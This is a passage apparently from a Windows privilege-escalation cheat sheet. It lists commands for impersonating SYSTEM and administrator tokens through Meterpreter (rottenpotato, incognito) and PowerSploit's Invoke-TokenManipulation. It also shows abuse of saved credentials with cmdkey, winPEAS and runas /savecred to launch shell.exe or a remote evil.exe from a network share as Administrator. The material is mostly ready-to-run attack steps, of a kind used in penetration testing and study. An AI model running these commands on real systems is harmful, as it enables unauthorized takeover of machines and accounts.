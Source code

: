 **With Metasploit**

From Meterpreter execute the below

```
execute -f rottenpotato.exe -Hc
```

Or

```
load incognito
```

Then list the tokens

```
list_tokens -u
```

You should get `NT Authority\System` token available to impersonate. Execute the below

```
impersonate_token "NT Authority\\System"
```

**With Powersploit**

Invoke the module

```
Invoke-TokenManipulation -Enumerate
```

Depending on the output, look for the username that is administrator and execute the below

```
Invoke-TokenManipulation -ImpersonateUser -Username "pentest\Administrator"
```

And

```
Invoke-TokenManipulation -ImpersonateUser -Username "NT Authority\System"
```

#### Exploiting saved credentials

Windows also allows users to save their credentials to the system when they run programs using `runas` With Winpeas

```
cmdkey /list

.\winPEASany.exe quiet cmd windowscreds
```

Then the saved creds can be used to run commands as any user

```
runas /savecred /user:admin C:\shell.exe

runas /savecred /user:WORKGROUP\Administrator "\\ip\SHARE\evil.exe"

runas /savecred /user:Administrator "cmd.exe /k whoami"
```
